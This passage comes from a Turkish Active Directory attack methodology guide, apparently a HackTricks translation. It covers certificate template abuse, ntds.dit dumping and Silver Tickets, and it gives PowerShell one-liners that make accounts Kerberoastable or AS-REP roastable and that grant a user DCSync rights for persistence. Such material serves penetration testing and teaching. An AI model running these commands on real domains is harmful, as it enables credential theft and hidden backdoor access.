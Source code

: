 {% content-ref url="ad-certificates/certificate-theft.md" %}
[certificate-theft.md](ad-certificates/certificate-theft.md)
{% endcontent-ref %}

### Sertifika Şablonları Kötüye Kullanımı

Eğer **savunmasız şablonlar** yapılandırılmışsa, bunları kötüye kullanarak ayrıcalıkları yükseltebilirsiniz:

{% content-ref url="ad-certificates/domain-escalation.md" %}
[domain-escalation.md](ad-certificates/domain-escalation.md)
{% endcontent-ref %}

## Yüksek ayrıcalıklı hesapla son aşama saldırı

### Etki Alanı Kimlik Bilgilerini Dökmek

Bir kez **Etki Alanı Yöneticisi** veya daha iyi **Kurumsal Yönetici** ayrıcalıklarına sahip olduğunuzda, **etki alanı veritabanını** _ntds.dit_ **dökebilirsiniz**.

[**DCSync saldırısı hakkında daha fazla bilgi burada bulunabilir**](dcsync.md).

[**NTDS.dit'yi nasıl çalacağınız hakkında daha fazla bilgi burada bulunabilir**](https://github.com/carlospolop/hacktricks/blob/master/windows-hardening/active-directory-methodology/broken-reference/README.md)

### Ayrıcalıkları Yükseltme Olarak Kalıcılık

Önceki tartışılan bazı teknikler kalıcılık için kullanılabilir.\
Örneğin:

*   Kullanıcıları [**Kerberoast**](kerberoast.md) saldırısına karşı savunmasız hale getirebilirsiniz

```powershell
Set-DomainObject -Identity <kullanıcıadı> -Set @{serviceprincipalname="sahte/HİÇBİRŞEY"}r
```
*   Kullanıcıları [**ASREPRoast**](asreproast.md) saldırısına karşı savunmasız hale getirebilirsiniz

```powershell
Set-DomainObject -Identity <kullanıcıadı> -XOR @{UserAccountControl=4194304}
```
*   Bir kullanıcıya [**DCSync**](./#dcsync) ayrıcalıklarını verin

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=ALT,DC=ETKİALANI,DC=YEREL" -PrincipalIdentity bfarmer -Rights DCSync
```

### Gümüş Bilet

**Gümüş Bilet saldırısı**, belirli bir hizmet için **meşru Bilet Verme Hizmeti (TGS) bileti** oluşturmak için **NTLM hash'ini** (örneğin, **PC hesabının hash'ini**) kullanır. Bu yöntem, hizmet ayrıcalıklarına **erişmek** için kullanılır.
